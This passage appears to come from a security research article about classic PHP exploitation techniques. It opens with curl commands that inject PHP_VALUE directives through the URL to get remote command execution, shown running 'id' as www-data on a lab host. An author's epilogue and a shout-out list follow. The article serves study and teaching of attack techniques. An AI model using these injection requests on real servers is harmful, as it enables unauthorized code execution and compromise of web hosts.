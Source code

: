 ```console

=> [5] let's kick off the real payload
$ curl "http://orange.local/index.php/PHP_VALUE%0Aerror_log=/tmp/a;;;;[..]"
$ curl "http://orange.local/index.php/PHP_VALUE%0Ainclude_path=/tmp;;;[..]"
$ curl "http://orange.local/index.php/PHP_VALUE%0Aauto_prepend_file=a;[..]"
  [...]
$ curl "http://orange.local/index.php?a=id"
  uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
<PRE>


</PRE>
## \-\-[  Epilogue
<PRE>

Honestly, tackling such a huge topic was incredibly challenging -
especially deciding what to cover and worrying whether I'd missed even
cooler stories. Every time I revisited a finished section, I still felt
something was missing, and ended up rewriting the whole thing from scratch
again. The entire process involved countless revisions, and there were so
many moments I nearly gave up - but thankfully, I made it through in the
end! I'd also like to give special thanks to Henry, NiNi, and Raptor for
giving numerous awesome suggestions to help polish this article - thank
you so much!

Though this article revisits tons of seemingly old techniques, I think
it's meaningful - they may be old, but they're absolute gold (and still
usable today)! It's just like you can't avoid studying the Vudo Tricks
[84] while learning Doug Lea's malloc, or revisiting the textbook-level
Smashing The Stack [85]. These techniques became legendary exactly because
the ideas behind them were way ahead of their time, inspiring generations
of hackers along the way!

Of course, I believe there must be even better ways to explore this topic.
Everyone brings their own life experiences, and writing with complete
objectivity just isn't possible. But within the limited time and space,
I've tried my best to capture my own "flavor," and highlight the stories
that I believe deserve to be passed on!


</PRE>
#### ----[ > Honorable Mention
<PRE>

Of course, there are still lots of brilliant PHP techniques that I
couldn't squeeze into this article, so let me at least quickly give them a
*shout-out* here!


    - I absolutely love the "PHP Security Advent Calendar" [86] released
      by RipsTech - every single challenge in there is pure gold!
